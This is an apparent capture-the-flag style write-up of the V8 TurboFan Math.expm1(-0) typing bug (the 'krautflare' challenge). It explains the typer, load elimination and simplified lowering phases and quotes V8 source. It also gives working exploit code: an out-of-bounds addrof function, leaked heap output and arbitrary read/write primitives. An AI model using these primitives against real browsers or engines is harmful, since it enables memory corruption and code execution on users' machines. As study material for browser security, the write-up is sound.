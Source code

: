 # Math.expm1(-0) is it actually -0 ?

## Understanding the bug:
- typer runs
    - typer phase.
    - TypeNarrowingReducer - load elimination phase.
    - simplified lowering phase. 
- math.expm1(-0) is always -0, but the typer is making a mistake of `range` as (plainNumber, NaN) but -0 is not a plain number or a NaN. 

![idek4](image-3.png)

### Object.is()

> 1- Initial phase
- The typer assigns this as a SameValue node in IR 

![initial](image.png)

> 2- TypedOptimization - ReduceSameValue
```
else if (lhs_type.Is(Type::MinusZero())) {
    // SameValue(x:minus-zero,y) => ObjectIsMinusZero(y)
    node->RemoveInput(0);
    NodeProperties::ChangeOp(node, simplified()->ObjectIsMinusZero());
    return Changed(node);
  } else if (rhs_type.Is(Type::MinusZero())) {
    // SameValue(x,y:minus-zero) => ObjectIsMinusZero(x)
    node->RemoveInput(1);
    NodeProperties::ChangeOp(node, simplified()->ObjectIsMinusZero());
    return Changed(node);
  }
```

![idek1](image-1.png)

> 3- simplified lowering
```
case IrOpcode::kObjectIsMinusZero: 
Type const input_type = GetUpperBound(node->InputAt(0));
if (input_type.Is(Type::MinusZero())) {
    VisitUnop(node, UseInfo::None(), MachineRepresentation::kBit);
    if (lower()) {
    DeferReplacement(node, lowering->jsgraph()->Int32Constant(1));
    }
}
```

![idek2](image-2.png)

### Patch and the bug details:

- Math.expm1 gets converted to a (Float64Expm1 and ChangeFloat64ToTagged) which will just truncate the -0 to a 0
- Using a call node, inbuilt v8 math.expm1 we can avoid this.
- The patch is applied only to the typer.cc and not the operation-typer so we can produce a call node from the v8 builtins to get the math.expm1 in v8 which still has the incorrect type assumtions set.

![ide](image-4.png)

### Pipeline of turbofan:
![idk](image-5.png)

#### Typer phase:
- Go through all the nodes and send it to GraphReducer.
- Try to associate the type with the following node.

#### Type lowering:
- does a shit ton of optimisation like

![bob](image-7.png)

#### Ecape analysis:
![bob](image-6.png)

#### Simplified lowering:
- Has a lot more cases to optimization.

## Exploitation:

- Problem: Our sameValue has type of boolean that made the type assumption of (0, 1337) and hence no OOB access. 
![bob](image-8.png)
![bob](image-9.png)

- Like the blog said we have to keep the samevalue node until the last optimization and fold it to be true. Which means the compiler should'nt know that we are comparing with -0 untill the last optimization.
- in escape analysis we can fix the -0 to the object.is() and in simplified lowering we get our desired range value and hence a removal of the checkbounds because the `assumed` return type is false and it will always be inside the array limits. hopefully.

> #79:CheckBounds[VectorSlotPair(INVALID)](#125:NumberMultiply, #58:NumberConstant, #45:Checkpoint, #43:Call)  [Static type: Range(0, 4), Feedback type: Range(0, 0)]

![idekde](image-10.png)

### OOB Array creation:
- Using the OOB array access we can just leak the addrof objects if we keep it nearby to a float array.
- After a lot of trial and error and lot of monkey patching I finally found a way to get memory leak kinda better.
```py
function addrof(x, i=1){
    let a = [1.1, 2.2, 3.3];
    let b = [5.5, 5.5, 5.5, 5.5, 5.5];
    let o = {m: -0};
    let t = Object.is(Math.expm1(x), o.m) + 0;
    t *= (i+0); // i to integral.
    let val = a[t];
    oob_rw_buffer = b;
    return val;
}
```
- a is the array to get out of bounds. b is the array where I want to change the length field.
- tricky stuff: the parameter value `i` is not having much type, So I added it with 0 to make sure the type gets fixed to the integral type. Now the feedback along with this will make out oob read possible. silly JS engine. 
- finally storing the context of b into oob_rw_buffer. Given below is the rough leak after the fixed array of `a`.

```
3) int: 0x7a7e2501459
4) int: 0x500000000
5) int: 0x4016000000000000
6) int: 0x4016000000000000
7) int: 0x4016000000000000
8) int: 0x4016000000000000
9) int: 0x4016000000000000
10) int: 0x375928582cf9   - (map of b)
11) int: 0x7a7e2500c21    - (property of b)
12) int: 0x65ad13cc1c9    - (element backing pointer of b)
13) int: 0x500000000      - (length field)
14) int: 0x7a7e2500561
15) int: 0x8000000000000000
16) int: 0x3ff199999999999a
17) int: 0x3ff199999999999a
18) int: 0x3ff199999999999a
19) int: 0x3ff199999999999a
```

### Addrof primitive:
- Since we have the OOB array and having a another array after helps us to achieve a oob array read hence having a addrof primitive.
![bob](image-11.png)

### Arb read/ Arb write:
- We can just store the ArrayBuffer after all the allocations and calculate the offset difference between the arraybuffer and oob array and use that to get arb_read and arb_write.
```js
function arb_write(addr, val){
    oob_rw_buffer[diff/8n] = addr.i2f();
    dv.setBigUint64(0, val, true);
}
```
```js
function arb_read(addr){
    oob_rw_buffer[diff/8n] = addr.i2f();
    return dv.getBigUint64(0, true);
}
```

[Final Exploit](./exp.js)


## Debugging stuff:
- Helper code for GDB is basically located in src/objects-printer.cc
- Node structure for all the sea of nodes. 
  - **Methods:**
  - New, clone, isDead, kill...
  - **Variables:**
  - like op(description of the computation):
    - opcode related
    - properties 

  - --trace-turbo: to get the thingy for turbolizer graph.
  - --trace-representation: it gives out the feedback types and info about each of the optimization phases. 

## Links:
- https://abiondo.me/2019/01/02/exploiting-math-expm1-v8
- https://www.jaybosamiya.com/blog/2019/01/02/krautflare/